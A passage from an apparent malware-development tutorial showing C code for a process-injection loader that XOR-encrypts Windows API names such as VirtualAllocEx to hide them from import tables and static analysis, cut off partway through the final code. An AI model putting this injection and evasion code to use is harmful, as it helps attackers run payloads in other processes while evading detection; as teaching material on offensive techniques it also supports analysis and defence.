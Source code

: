 ```c
    //
    // ALLOCATE MEMORY IN TARGET PROCESS
    //
    size_t payload_size = sizeof( payload );
    LPVOID target_process_allocated_memory = NULL;
    
    unsigned char VirtualAllocEx_encrypted[] = { 0x01, 0x3e, 0x25, 0x23, 0x22, 0x36, 0x3b, 0x16, 0x3b, 0x3b, 0x38, 0x34, 0x12, 0x2f, 0x57 };
    xor_decrypt( VirtualAllocEx_encrypted, sizeof(VirtualAllocEx_encrypted) );

    LPVOID( WINAPI * _VirtualAllocEx )
    (
        HANDLE hProcess,
        LPVOID lpAddress,
        SIZE_T dwSize,
        DWORD  flAllocationType,
        DWORD  flProtect    
    );

    _VirtualAllocEx = ( LPVOID( WINAPI *) 
    (
        HANDLE hProcess,
        LPVOID lpAddress,
        SIZE_T dwSize,
        DWORD  flAllocationType,
        DWORD  flProtect    
    )) GetProcAddress( kernel32_dll_handle, VirtualAllocEx_encrypted );

    if( NULL == _VirtualAllocEx )
    {
        // printf( "Could not resolve VirtualAllocEx!\n" );
        return 1;
    }

    target_process_allocated_memory = _VirtualAllocEx( target_process, NULL, payload_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE );

    if( NULL == target_process_allocated_memory )
    {
        // printf( "[!] Could not allocate memory!\n" );
        return 1;
    }
```

We can repeat the process to result in all the strings for the APIs/Module names listed above being encrypted and thus hidden from the IAT, strings list, and would be slightly harder overall to do static analysis (will be shown below in the next section). Here is the finalized code with all the Module/API strings XOR encrypted:

```python
#include <stdio.h>
#include <string.h>
#include <windows.h>
#include <TlHelp32.h>
#include "payload.h"

//
// XOR Decryption Function
//
void xor_decrypt( unsigned char *data, int data_len )
{
    unsigned char key = 0x57;

	for( int i = 0; i < data_len; i++ )
```